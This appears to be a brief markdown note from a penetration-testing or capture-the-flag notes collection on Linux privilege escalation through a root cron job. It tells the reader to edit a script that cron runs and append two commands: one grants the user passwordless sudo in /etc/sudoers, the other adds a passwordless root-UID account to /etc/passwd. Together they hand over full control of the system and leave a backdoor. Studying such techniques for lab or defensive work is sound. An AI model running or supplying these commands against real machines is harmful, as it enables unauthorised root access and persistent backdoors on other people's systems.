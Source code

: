 # PRIV ESC via crontab

After that we can locate the crontab file (etc/crontab) read it and find a process which is executed every minutes (or hours...).
~whoami => current user, copy it

edit the executable => add+

    echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
    echo "user::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd

we can now execute commands with 'sudo' 

